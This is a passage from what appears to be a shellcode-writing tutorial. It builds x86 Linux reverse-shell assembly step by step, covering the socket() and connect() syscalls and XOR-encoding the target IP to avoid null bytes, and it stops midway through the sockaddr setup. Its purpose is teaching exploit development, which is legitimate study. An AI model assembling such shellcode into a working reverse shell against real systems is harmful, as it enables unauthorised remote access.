 ### socket()
The `socket()` function (syscall 359) creates an endpoint for communication. The prototype for this function is defined as follows:
```
int socket(int domain, int type, int protocol);
```
The parameters need to be put in appropriate registers:
* ebx will contain _domain_, set to 2 for "AF_INET" (IPv4 Internet protocols)
* ecx will contain _type_, set to 1 for "SOCK_STREAM" (sequenced, reliable, two-way, connection-based byte streams)
* edx will contain _protocol_, set to 0 (single protocol)

Code implementation is the following:
```
;// Creating File Descriptor for the Socket	
;socket_fd = socket(AF_INET, SOCK_STREAM, 0);
mov ax, 0x167		; #define __NR_socket 359
mov bl, 0x2			; AF_INET = 2
mov cl, 0x1			; SOCK_STREAM = 1
int 0x80			; FD will be stored in eax
```
The return value of the function is the file descriptor that refers to the communication endpoint that has been created, and it will be stored into eax. We will need it for the next syscalls, to we need to copy it somewhere. I have choosen to copy it into edi.
```
mov edi, eax		; Copying socket_fd into edi
xor eax, eax		; Cleaning eax
```

### connect()
The `connect()` function (syscall 362) initiates a connection on a socket. The prototype for this function is defined as follows:
```
int connect(int sockfd, const struct sockaddr *addr,
			socklen_t addrlen);
```
In order to execute the _connect_ we will need to create the *sockaddr* structure in memory with information on the remote address to connect to, which will then be passed to the connect. As we will need to provide also the lenght of the structure in memory, let's first save the current esp into edx:
```
;// Creating sockaddr_in structure for Remote Address
;struct sockaddr_in server;
mov edx, esp		; Saving current SP in edx (will be used to compute size of struct)
```
We need now to push the attributes of sockaddr_in onto the stack *in reverse order*, therefore we are:
* Pushing 8 bytes set to zero and then push the listen address 0.0.0.0 (another 4 zero bytes):
  ```
	; Pushing 8 zero bytes as per struct specifications
	push eax	
	push eax
  ```
* Pushing the remote address to which the connection will be attempted. Here we could have some problems with the shellcode if at least one of the components of the IP address is zero. I have then decided to add a version of the IP address XOR-ed with 0xFFFFFFFF (it is 255.255.255.255 and it is very unlikely that someone connects to that address). Given the basic rule `A XOR B = C,  C XOR B = A` I am then XOR-ing it again in the code in order to retrieve the original IP value without writing zeroes in the shellcode.
  ```
	;server.sin_addr.s_addr = inet_addr(REMOTE_ADDR);	
	mov eax, 0xfeffff80	; XOR-ed Address
	xor eax, 0xFFFFFFFF		
	push eax
	xor eax, eax
  ```